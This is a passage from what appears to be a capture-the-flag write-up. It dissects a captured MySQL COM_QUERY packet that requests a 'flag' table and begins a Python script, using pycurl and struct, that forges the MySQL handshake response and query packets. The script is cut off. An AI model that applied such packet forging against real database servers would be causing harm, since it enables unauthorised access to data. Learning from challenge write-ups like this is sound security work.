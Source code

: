   <img src='assets/mysql_com_query_packet.png'>
</p>

When we examine the captured packets, we notice the following structure;

| Name             | Value                                       
|------------------|-------                              
| `payload_length` | `13 00 00` (`19`)
| `sequence_id`    | `00`
| `COM_QUERY`      | `03`
| `query`          | `53 45 4c 45 43 54 20 2a 20 46 52 4f 4d 20 66 6c 61 67` (`SELECT * FROM flag`)

### Reconstructing the Handshake response & `COM_QUERY` packet

```python
import pycurl, struct

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
```